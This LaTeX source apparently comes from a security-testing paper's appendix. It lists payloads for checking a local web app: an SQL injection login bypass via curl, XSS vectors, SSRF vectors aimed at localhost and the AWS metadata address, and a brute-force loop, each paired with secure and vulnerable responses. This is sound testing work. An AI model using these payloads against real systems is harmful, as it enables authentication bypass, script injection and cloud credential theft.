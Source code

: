 \documentclass[conference,a4paper]{IEEEtran}
\begin{document}
\section{Exploit Payloads and Evidence}

\subsection{SQL Injection (Login)}
\begin{lstlisting}
curl -X POST http://localhost:5000/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin' OR '1'='1","password":"x"}'

# Secure:     401 {"message":"Invalid credentials"}
# Vulnerable: 200 {"token":"eyJhbG..."} (bypass)
\end{lstlisting}

\subsection{XSS -- 25 Vector Samples (Forum)}
\begin{lstlisting}
# 1. Basic:  <script>alert(1)</script>
# 2. Event:  <img src=x onerror=alert(1)>
# 3. SVG:    <svg/onload=alert(1)>
# 4. Encoded: %3Cscript%3Ealert(1)%3C/script%3E
# 5. Proto:  <a href=javascript:alert(1)>click</a>

# Verify stored XSS:
curl http://localhost:5000/posts/1
# Secure:     {"body":"&lt;script&gt;..."} (escaped)
# Vulnerable: {"body":"<script>alert(1)</script>"}
\end{lstlisting}

\subsection{SSRF (LinkPreview) -- 10 Vectors}
\begin{lstlisting}
# 1. Localhost:    http://127.0.0.1:5000/admin
# 2. AWS metadata: http://169.254.169.254/latest/
# 3. Hex IP:       http://0x7f000001
# 4. Decimal IP:   http://2130706433
# 5. IPv6:         http://[::1]

# Secure:     400 {"error":"URL not allowed"}
# Vulnerable: 200 with internal service data
\end{lstlisting}

\subsection{Rate Limiting (Login)}
\begin{lstlisting}
for i in $(seq 1 151); do
  curl -s -o /dev/null -w "%{http_code}" \
    -X POST http://localhost:5000/login \
    -d '{"email":"test","password":"wrong"}'
done
# Secure:     429 after ~100 attempts
# Vulnerable: 401 on all 151 (no protection)
\end{lstlisting}
\end{document}
